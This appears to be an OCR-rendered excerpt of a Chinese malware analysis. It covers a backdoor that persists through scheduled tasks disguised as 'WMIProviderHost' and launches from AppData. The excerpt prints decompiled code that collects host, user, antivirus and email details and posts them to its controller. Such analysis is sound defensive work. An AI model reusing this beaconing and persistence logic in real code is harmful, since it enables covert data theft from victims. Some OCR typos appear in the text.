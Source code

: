 <html><body><table><tr><td>WMIProviderHost10准备就绪</td><td></td><td></td><td>在2023/6/13的10:00时2023/6/1310:00:00不显示</td><td>2017MicrosoftCorporation.Allrightsreserved.</td></tr><tr><td>WMIProviderHost11准备就结</td><td></td><td>在2023/6/13的11:00时2023/6/1311:00:00</td><td>不显示</td><td>2017 Microsoft Corporation. All rights reserved.</td></tr><tr><td>WMIProviderHost12</td><td>准备就绪</td><td>在2023/6/13的12:00时</td><td>2023/6/1312:00:00 不显示</td><td>2017MicrosoftCorporation.Allrightsreserved.</td></tr><tr><td>WMIProviderHost13</td><td>准备就绪</td><td>在2023/6/13的13:00时</td><td>2023/6/13 13:00:00 不显示</td><td>2017MicrosoftCorporation.Allrightsreserved</td></tr><tr><td></td><td></td><td>WMIProviderHost14准备就结在2023/6/13的14:00时2023/6/1314:00:00</td><td>不显示</td><td>2017 Microsoft Corporation. All rights reserved.</td></tr></table></body></html>  

<html><body><table><tr><td>常规</td><td>校发器</td><td>损作 条件</td><td>设置 历史记录（已禁用）</td><td colspan="3"></td></tr><tr><td></td><td>创建任务时，必须指定任务启动时发生的损作，若要更改这些损作，使用“属性命令打开任务属件页。</td><td></td><td></td><td></td><td></td></tr><tr><td>操作</td><td></td><td>详细信息</td><td></td><td></td><td></td></tr><tr><td>启动程序</td><td></td><td>C:Users</td><td></td><td>\AppData\Roaming\DllHostcache</td><td></td></tr></table></body></html>  

### 回传之前收集的信息。  

235 if （ g_is_64_arch )   
236 wsprintfA(   
237 v32,   
238 "hwid=%s&username=%s&compname=%s&osname=%s&arch=1&av=%s&agent=%i&profile=%s&mail=%s",   
239 g_encode_machine_guid,   
240 g_encode_username,   
241 g_encode_cmpname,   
242 g_encode_os_version,   
243 g_encode_av_info,   
244 \*(_DWORD \*)g_rsc_decode_data,   
245 g_encode_profile,   
246 g_encode_email);   
247 else   
248 wsprintfA(   
249 v32,   
250 "hwid=%s&username=%s&compname=%s&osname=%s&arch=0&av=%s&agent=%i&profile=%s&mail=%s",   
251 g_encode_machine_guid,   
252 g_encode_username,   
253 g_encode_cmpname,   
254 g_encode_os_version,   
255 g_encode_av_info,   
256 \*(_DWORD \*)g_rsc_decode_data,   
257 g_encode_profile,   
258 g_encode_email);   
259 memset(String1, 0, sizeof(String1));   
260 v33 $=$ lstrlenA;   
261 v34 $=$ lstrlenA(v32);   
262 MwPostRequest(v32,v34,(int)String1,0x1000u);  

<html><body><table><tr><td colspan="2">字段名称 含义</td></tr><tr><td>hwid</td><td>MachineGUID</td></tr><tr><td>username</td><td>用户名</td></tr><tr><td>compname</td><td>主机名</td></tr><tr><td>osname</td><td>系统版本</td></tr><tr><td>arch</td><td>系统位数</td></tr><tr><td>av</td><td>杀软信息</td></tr><tr><td>agent</td><td>配置数据中的后门agent代号（数值为“3”）</td></tr><tr><td>profile</td><td>配置数据中的profile信息</td></tr><tr><td>mail</td><td>配置数据中的邮箱名</td></tr></table></body></html>  
